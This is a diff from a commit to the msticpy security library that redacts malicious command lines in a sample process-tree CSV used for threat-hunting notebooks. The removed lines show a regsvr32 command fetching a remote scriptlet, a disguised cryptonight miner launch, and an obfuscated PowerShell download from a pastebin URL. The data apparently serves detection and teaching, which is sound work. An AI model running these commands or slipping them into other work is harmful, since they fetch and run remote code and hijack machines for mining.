

Before and after one commit to microsoft/msticpy, a CSV file: docs/notebooks/data/process_tree.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/docs/notebooks/data/process_tree.csv
+++ b/docs/notebooks/data/process_tree.csv
-O33 (CommandLine): …/n /u /i:http://server/file.sct scrobj.dll
+O33 (CommandLine): …/n /u /i:http://server/****REDACTED-MALWARE-SIG****.dll
-O34 (CommandLine): .\suchost.exe -a cryptonight -o bcn…
+O34 (CommandLine): .\suchost.exe -a ****REDACTED-MALWARE-SIG**** -o bcn…
-O37 (CommandLine): .\powershell.exe -c "$a = 'Download'+'String'+"(('ht'+'tp://paste'+ 'bin/'+'raw/'+'pqCwEm17'))";$b = '(New-Object' + ' Net.WebClient)';'$b.$a' | Out-File .\evil.ps1;"
+O37 (CommandLine): .\powershell.exe -c ****REDACTED-MALWARE-SIG****"
```
Also changed, not shown: 13 edited cells elsewhere in this file, docs/notebooks/data/ioc_df.csv, 3 other files.
